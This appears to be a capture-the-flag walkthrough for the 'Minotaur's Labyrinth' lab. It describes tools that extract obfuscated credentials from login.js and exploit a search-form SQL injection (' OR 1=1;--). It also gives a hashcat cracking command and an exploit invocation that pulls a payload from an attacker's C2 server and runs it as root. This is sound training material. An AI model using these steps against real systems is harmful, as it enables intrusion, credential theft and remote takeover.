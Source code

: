 # Minotaur's Labyrinth: Walkthrough

## Custom Exploit Tools

### Stage 1: Password Grabber

To access the restricted area of the website, the user must pass a credential check. After manually enumerating the website and following referenced custom scripts, it is obvious that the `login.js` script referenced in the `login.html` source contains obfuscated credentials of a user `Daedalus`. The credentials are hidden in the comments of the script and are disguised as a string built by array indicies. 

```javascript
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
// 
```

The [golang program](stage1.go) in this repository:

> 1. reaches out to the target and pulls down the `login.js` file
> 2. searches for the password arrays (`a`, `b`, `c`)
> 3. searches for Daedalus' password array in the comments
> 4. uses the reference arrays to build Daedalus' password
> 5. displays the extracted credentials to the user

The attacker can then use these credentials to either login to the site and proceed with the attack, or pass the credentials into another tool to automate the takeover of the target.

### Stage 2: SQLi Injector

To leverage the credentials obtained in the first attack a tool was written in Python3. This tool extracts users and password hashes from the database using a SQLi vulnerability present in the dashboard of an authenticated user. 

After the user authenticates, they are brought to a dashboard where they can search for people and creatures. This search form reaches out and contacts `api/<creatures/people>/search` and has a SQL injection (SQLi) vulnerability present. If an attacker inputs the search string `' OR 1=1;--` they will get a dump of all the creatures or people in the database. This also displays the creatures' and people's password hashes.

After this script is run the attacker must manually crack the hashes using a tool like hashcat, john, or [crackstation](https://crackstation.net).

Hashcat Command:

```bash
hashcat -m 0 -a 0 <hash_file> <wordlist>
```

*The password can be found in the rockyou wordlist.*

Command To Execute Stage 2:

```bash
./exploit.py $TARGET daedalus <password> stage2 -a
```

*Note
The [script](exploit.py) for stage 2 is alsoused to execute stage 3, becuase stage 3 uses some of the same process as stage 2.*

### Stage 3: Foothold

After the attacker authentictes and pulls down the user hashes, they will find that M!n0taur has an easily crackable password hash. This leaks M!n0taur's credentials and allows the attacker to login as M!n0taur (an admin). Once logged in as admin, there is both a web flag and a new page accessible. This new page allows the attacker to run the `echo` command on the target machine and opens up the target to RCE.

Command To Execute Stage 3:

```bash
./exploit.py $TARGET M\!n0taur <password> stage3 -c <C2IP>:<C2PORT> -b
```

If desired, the user can also specify `-s` to specify the name of the script the exploit will pull down from the C2 server. The default script name is `rooter.sh`.

*Note The `-b` option builds a pre-witten script that will pull down a file called `mshell` from the attacker's C2 server and uses the privilege escalation vector to have it run as root.*